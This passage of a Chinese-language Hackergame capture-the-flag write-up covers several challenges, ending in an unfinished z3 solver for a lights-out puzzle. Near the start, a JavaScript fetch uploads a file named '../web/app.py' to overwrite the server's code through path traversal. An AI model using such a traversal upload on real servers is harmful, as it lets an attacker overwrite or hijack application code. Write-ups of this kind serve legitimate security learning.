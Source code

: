 ```js
        return f.read()
`
fetch("/submit", {
    "body": (()=>{const data = new FormData();data.append('file',new File([code],"../web/app.py"));return data})(),
    "method": "POST",
    "mode": "cors",
    "credentials": "include"
  });
```

完成后刷新就能看到原始答案文件了，之后执行如下代码就能提取 flag：
```js
JSON.parse(document.body.innerText).map(n=>String.fromCharCode(n+65)).join("")
```

## 零知识数独 - 数独高手

为什么要有这一小题？为什么要我随便找个在线 solver 做苦力？

顺带一提，我用的是 [f-puzzles](https://www.f-puzzles.com/) 附带的 solver。

## 先不说关于我从零开始独自在异世界转生成某大厂家的 LLM 龙猫女仆这件事可不可能这么离谱，发现 Hackergame 内容审查委员会忘记审查题目标题了ごめんね，以及「这么长都快赶上轻小说了真的不会影响用户体验吗🤣」 - 「行吧就算标题可以很长但是 flag 一定要短点」

本题目不需要任何 AI 知识。只需要借助 [Nutrimatic 找词工具](https://nutrimatic.org/) 的力量，你就能完全还原原文。对于一些比较不熟悉的用法也可以通过搜索连续的多个词来确定。

## 关灯 -  Easy/Medium/Hard

这我肯定用 z3 硬解。代码如下：

```py
import pwn
import z3

token=b"<token>"

conn = pwn.remote('202.38.93.141',10098)
conn.send(token)
conn.send(b"\n")

n_list=[3,5,11]
difficulty=3
n=n_list[difficulty-1]

conn.recvuntil(b"(1~4): ")
conn.send(str(difficulty).encode()+b"\n")
data=conn.recvuntil(b"\n").decode().strip()
print(data)

s = z3.Solver()

var=[[[z3.Bool(f"switch_{i}_{j}_{k}") for i in range(n)] for j in range(n)] for k in range(n)]

directions=[
	(0,0,1),
	(0,0,-1),
	(0,1,0),
	(0,-1,0),
	(1,0,0),
	(-1,0,0),
]
```